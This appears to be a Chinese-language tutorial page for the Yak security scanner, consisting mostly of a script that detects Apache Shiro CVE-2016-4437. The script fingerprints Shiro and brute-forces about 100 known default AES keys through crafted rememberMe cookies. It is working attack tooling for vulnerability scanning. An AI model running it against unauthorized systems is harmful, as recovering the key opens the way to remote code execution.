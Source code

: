 ```yaml
---
sidebar_position: 4
---
```


# Shiro CVE-2016-4437（WIP）

阅读本文前，请先确保已经熟悉 [ThinkPHP-5.0.25-RCE](/products/Plugin-repository/best-practice/thinkphp-case) 中相关内容

本篇中将会涉及到 Shiro 这类比较复杂的漏洞检测，我们将完全通过 `Yak` 内部的模块完成该模块

:::caution Work In Progress

更详细的编码教程与解读我们将在后续补充

:::

## 原代码

```go
log.setLevel("info")
isHttps = cli.Bool("https")

// 构建 shiro 基础请求
baseFreq := fuzz.HTTPRequest(`GET / HTTP/1.1
Host: example.com
Connection: close

`)[0].FuzzHTTPHeader("Host", "cybertunnel.run:8080")

// 发送数据包，取一下指纹结果
result = baseFreq.FuzzCookie("rememberMe", "{{rs(10)}}").ExecFirst(
    httpool.https(isHttps), httpool.redirectTimes(4),
)[0]
die(result.Error)

url, reqRaw, rspRaw = result.Url, result.RequestRaw, result.ResponseRaw

// 检查指纹
headers, body := str.SplitHTTPHeadersAndBodyFromPacket(rspRaw)
if !str.MatchAnyOfSubString(headers, "rememberMe=deleteMe;") {
    die("no shiro detected")
}

log.info("shiro on %v detected", url)
log.info("start to check key")

// 指纹检测工程，接下来准备猜 key
keys = [
    "kPH+bIxk5D2deZiIxcaaaA==",
    "4AvVhmFLUs0KTA3Kprsdag==",
    "Z3VucwAAAAAAAAAAAAAAAA==",
    "fCq+/xW488hMTCD+cmJ3aQ==",
    "0AvVhmFLUs0KTA3Kprsdag==",
    "1AvVhdsgUs0FSA3SDFAdag==",
    "1QWLxg+NYmxraMoxAXu/Iw==",
    "25BsmdYwjnfcWmnhAciDDg==",
    "2AvVhdsgUs0FSA3SDFAdag==",
    "3AvVhmFLUs0KTA3Kprsdag==",
    "3JvYhmBLUs0ETA5Kprsdag==",
    "r0e3c16IdVkouZgk1TKVMg==",
    "5aaC5qKm5oqA5pyvAAAAAA==",
    "5AvVhmFLUs0KTA3Kprsdag==",
    "6AvVhmFLUs0KTA3Kprsdag==",
    "6NfXkC7YVCV5DASIrEm1Rg==",
    "6ZmI6I2j5Y+R5aSn5ZOlAA==",
    "cmVtZW1iZXJNZQAAAAAAAA==",
    "7AvVhmFLUs0KTA3Kprsdag==",
    "8AvVhmFLUs0KTA3Kprsdag==",
    "8BvVhmFLUs0KTA3Kprsdag==",
    "9AvVhmFLUs0KTA3Kprsdag==",
    "OUHYQzxQ/W9e/UjiAGu6rg==",
    "a3dvbmcAAAAAAAAAAAAAAA==",
    "aU1pcmFjbGVpTWlyYWNsZQ==",
    "bWljcm9zAAAAAAAAAAAAAA==",
    "bWluZS1hc3NldC1rZXk6QQ==",
    "bXRvbnMAAAAAAAAAAAAAAA==",
    "ZUdsaGJuSmxibVI2ZHc9PQ==",
    "wGiHplamyXlVB11UXWol8g==",
    "U3ByaW5nQmxhZGUAAAAAAA==",
    "MTIzNDU2Nzg5MGFiY2RlZg==",
    "L7RioUULEFhRyxM7a2R/Yg==",
    "a2VlcE9uR29pbmdBbmRGaQ==",
    "WcfHGU25gNnTxTlmJMeSpw==",
    "OY//C4rhfwNxCQAQCrQQ1Q==",
    "5J7bIJIV0LQSN3c9LPitBQ==",
    "f/SY5TIve5WWzT4aQlABJA==",
    "bya2HkYo57u6fWh5theAWw==",
    "WuB+y2gcHRnY2Lg9+Aqmqg==",
    "kPv59vyqzj00x11LXJZTjJ2UHW48jzHN",
    "3qDVdLawoIr1xFd6ietnwg==",
    "ZWvohmPdUsAWT3=KpPqda",
    "YI1+nBV//m7ELrIyDHm6DQ==",
    "6Zm+6I2j5Y+R5aS+5ZOlAA==",
    "2A2V+RFLUs+eTA3Kpr+dag==",
    "6ZmI6I2j3Y+R1aSn5BOlAA==",
    "SkZpbmFsQmxhZGUAAAAAAA==",
    "2cVtiE83c4lIrELJwKGJUw==",
    "fsHspZw/92PrS3XrPW+vxw==",
    "XTx6CKLo/SdSgub+OPHSrw==",
    "sHdIjUN6tzhl8xZMG3ULCQ==",
    "O4pdf+7e+mZe8NyxMTPJmQ==",
    "HWrBltGvEZc14h9VpMvZWw==",
    "rPNqM6uKFCyaL10AK51UkQ==",
    "Y1JxNSPXVwMkyvES/kJGeQ==",
    "lT2UvDUmQwewm6mMoiw4Ig==",
    "MPdCMZ9urzEA50JDlDYYDg==",
    "xVmmoltfpb8tTceuT5R7Bw==",
    "c+3hFGPjbgzGdrC+MHgoRQ==",
    "ClLk69oNcA3m+s0jIMIkpg==",
    "Bf7MfkNR0axGGptozrebag==",
    "1tC/xrDYs8ey+sa3emtiYw==",
    "ZmFsYWRvLnh5ei5zaGlybw==",
    "cGhyYWNrY3RmREUhfiMkZA==",
    "IduElDUpDDXE677ZkhhKnQ==",
    "yeAAo1E8BOeAYfBlm4NG9Q==",
    "cGljYXMAAAAAAAAAAAAAAA==",
    "2itfW92XazYRi5ltW0M2yA==",
    "XgGkgqGqYrix9lI6vxcrRw==",
    "ertVhmFLUs0KTA3Kprsdag==",
    "5AvVhmFLUS0ATA4Kprsdag==",
    "s0KTA3mFLUprK4AvVhsdag==",
    "hBlzKg78ajaZuTE0VLzDDg==",
    "9FvVhtFLUs0KnA3Kprsdyg==",
    "d2ViUmVtZW1iZXJNZUtleQ==",
    "yNeUgSzL/CfiWw1GALg6Ag==",
    "NGk/3cQ6F5/UNPRh8LpMIg==",
    "4BvVhmFLUs0KTA3Kprsdag==",
    "MzVeSkYyWTI2OFVLZjRzZg==",
    "CrownKey==a12d/dakdad",
    "empodDEyMwAAAAAAAAAAAA==",
    "A7UzJgh1+EWj5oBFi+mSgw==",
    "YTM0NZomIzI2OTsmIzM0NTueYQ==",
    "c2hpcm9fYmF0aXMzMgAAAA==",
    "i45FVt72K2kLgvFrJtoZRw==",
    "U3BAbW5nQmxhZGUAAAAAAA==",
    "ZnJlc2h6Y24xMjM0NTY3OA==",
    "Jt3C93kMR9D5e8QzwfsiMw==",
    "MTIzNDU2NzgxMjM0NTY3OA==",
    "vXP33AonIp9bFwGl7aT7rA==",
    "V2hhdCBUaGUgSGVsbAAAAA==",
    "Z3h6eWd4enklMjElMjElMjE=",
    "Q01TX0JGTFlLRVlfMjAxOQ==",
    "ZAvph3dsQs0FSL3SDFAdag==",
    "Is9zJ3pzNh2cgTHB4ua3+Q==",
    "NsZXjXVklWPZwOfkvk6kUA==",
    "GAevYnznvgNCURavBhCr1w==",
    "66v1O8keKNV3TTcGPK1wzg==",
    "SDKOLKn2J1j/2BHjeZwAoQ==",
]

data = codec.DecodeHex(`aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078`)[0]

cookies = make([]string)
for _, key = range keys {
    for _, rs = range [
        codec.AESCBCEncrypt,
        codec.AESGCMDecrypt,
    ] {
        keyBytes = codec.DecodeBase64(key)[0]
        res, err := rs(keyBytes, data, nil)
        if err != nil {
            println(err)
            continue
        }
        cookieRaw = append(keyBytes, res...)
        base64dK := codec.EncodeBase64(cookieRaw)
        cookies = append(cookies, base64dK)
    }
}

println("start go fuzz rememberMe")
r, err := baseFreq.FuzzCookie("rememberMe", cookies).Exec(httpool.https(isHttps), httpool.size(3))
die(err)

keyFoundResult = var
for result = range r {
    if result.Error != nil {
        continue
    }
    header, body = str.SplitHTTPHeadersAndBodyFromPacket(result.ResponseRaw)
    if str.MatchAllOfSubString(header, "rememberMe=deleteMe") {
        continue
    }
    keyFoundResult = result
    break
}

// keyFoundResult
println(string(keyFoundResult.RequestRaw))
```